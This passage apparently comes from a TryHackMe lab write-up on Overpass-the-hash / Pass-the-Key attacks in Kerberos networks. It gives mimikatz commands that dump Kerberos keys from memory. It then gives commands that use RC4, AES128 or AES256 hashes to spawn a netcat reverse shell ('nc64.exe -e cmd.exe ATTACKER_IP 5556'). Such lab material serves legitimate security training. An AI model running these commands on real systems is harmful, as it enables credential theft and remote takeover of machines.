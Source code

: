 ![task5-ps3](./images/task5-ps3.png)

### Overpass-the-hash / Pass-the-Key

This kind of attack is similar to PtH but applied to Kerberos networks.

When a user requests a TGT, they send a timestamp encrypted with an encryption key derived from their password. The algorithm used to derive this key can be either DES (disabled by default on current Windows versions), RC4, AES128 or AES256, depending on the installed Windows version and Kerberos configuration. If we have any of those keys, we can ask the KDC for a TGT without requiring the actual password, hence the name **Pass-the-key (PtK)**.

We can obtain the Kerberos encryption keys from memory by using mimikatz with the following commands:

```
mimikatz # privilege::debug
mimikatz # sekurlsa::ekeys
```

Depending on the available keys, we can run the following commands on mimikatz to get a reverse shell via Pass-the-Key (`nc64` is already available in THMJMP2 for your convenience):

**If we have the RC4 hash:**

```
mimikatz # sekurlsa::pth /user:Administrator /domain:za.tryhackme.com /rc4:96ea24eff4dff1fbe13818fbf12ea7d8 /run:"c:\tools\nc64.exe -e cmd.exe ATTACKER_IP 5556"
```

**If we have the AES128 hash:**

```
mimikatz # sekurlsa::pth /user:Administrator /domain:za.tryhackme.com /aes128:b65ea8151f13a31d01377f5934bf3883 /run:"c:\tools\nc64.exe -e cmd.exe ATTACKER_IP 5556"
```

**If we have the AES256 hash:**

```
mimikatz # sekurlsa::pth /user:Administrator /domain:za.tryhackme.com /aes256:b54259bbff03af8d37a138c375e29254a2ca0649337cc4c73addcd696b4cdb65 /run:"c:\tools\nc64.exe -e cmd.exe ATTACKER_IP 5556"
```

